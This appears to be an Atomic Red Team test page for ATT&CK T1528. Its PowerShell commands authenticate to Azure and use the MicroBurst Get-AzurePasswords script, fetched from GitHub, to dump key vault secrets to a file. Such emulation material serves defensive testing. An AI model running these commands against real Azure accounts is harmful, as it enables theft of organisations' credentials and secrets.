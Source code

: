 ```yaml
---
tags: [T1528, atomic_test]
filename: "[[T1528 - Steal Application Access Token]]"
---
```

# T1528 - Steal Application Access Token

## Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst
Upon successful execution of this test, the names, locations, and contents of key vaults within an Azure account will be output to a file.
See - https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 1b83cddb-eaa7-45aa-98a5-85fb0a8807ea





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|
| output_file | File to dump results to | string | $env:temp&#92;T1528Test1.txt|
| subscription_id | Azure subscription id to search | string | |


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzureRmAccount -Credential $Credential
Get-AzurePasswords -subscription '#{subscription_id}' > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Get-AzurePasswords script must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/AzureRM/Get-AzurePasswords.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
```
##### Description: The Azure RM module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureRM -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureRM -Force -allowclobber
```
##### Description: The Azure module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Azure -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Azure -Force -allowclobber
```




<br/>
